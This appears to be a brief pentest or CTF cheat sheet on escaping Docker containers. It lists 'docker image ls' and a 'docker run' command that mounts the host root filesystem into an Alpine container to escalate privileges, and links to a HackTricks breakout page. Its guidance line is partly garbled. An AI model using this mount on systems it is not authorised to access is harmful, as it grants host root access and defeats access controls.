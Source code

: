 [Docker: Use Containers to Build, Share and Run Your Applications](https://www.docker.com/resources/what-container)

# Guide

1. If the shell gain is within a Docker container, make sure you are within the correct server or that the exploit cant be changed to escape.

# Privilege Escalation

```
docker image ls
```

```
docker run -v /:/mnt -it alpine
```
# Escape Container

[Docker Breakout / Privilege Escalation | HackTricks | HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)
